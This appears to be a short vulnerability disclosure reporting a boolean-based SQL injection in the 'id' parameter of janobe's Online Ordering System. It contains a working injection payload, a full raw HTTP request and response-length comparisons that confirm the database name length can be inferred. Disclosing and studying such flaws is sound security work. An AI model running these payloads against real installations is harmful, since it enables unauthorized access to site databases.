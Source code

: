 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/index.php?q=products&id=

Vulnerability location: /ordering/index.php?q=products&id= //id is Injection point

[+]Payload: /ordering/index.php?q=products&id=2%27%20and%20length(database())%20=12--+ //id is Injection point

Current database name: multistoredb,length is 12

```sql
GET /ordering/index.php?q=products&id=2%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 11, Content-Length: 17564
![image](https://user-images.githubusercontent.com/54017627/168940458-5e11db7e-7a83-4fd9-a205-4c3ded901d1c.png)

![image](https://user-images.githubusercontent.com/54017627/168940395-a8d6777e-8543-4e5d-a333-907517ce3c1e.png)

When length (database ()) = 12, Content-Length: 24330
![image](https://user-images.githubusercontent.com/54017627/168940427-fd0bf7b1-4ddd-44f1-8d75-16d69b55478c.png)

![image](https://user-images.githubusercontent.com/54017627/168940372-79814df9-4d24-443e-a107-0a4c2482f2fa.png)

